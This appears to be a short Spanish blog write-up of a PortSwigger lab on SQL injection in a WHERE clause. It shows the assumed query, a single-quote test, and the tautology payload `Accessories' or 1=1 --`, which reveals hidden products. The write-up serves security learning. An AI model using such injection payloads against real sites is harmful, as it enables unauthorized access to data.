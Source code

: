 ```yaml
---
title: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


Tendremos en cuenta la siguiente consulta

```c
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

iniciamos el laboratorio practico

![20240802093704.png](20240802093704.png)

Primero probamos con `'` para testear si es vulnerable a sql injection y efectivamente lo es, por lo que podemos poner:

```c
Accessories' or 1=1 --
```

Para listar todos los productos

![20240802094309.png](20240802094309.png)
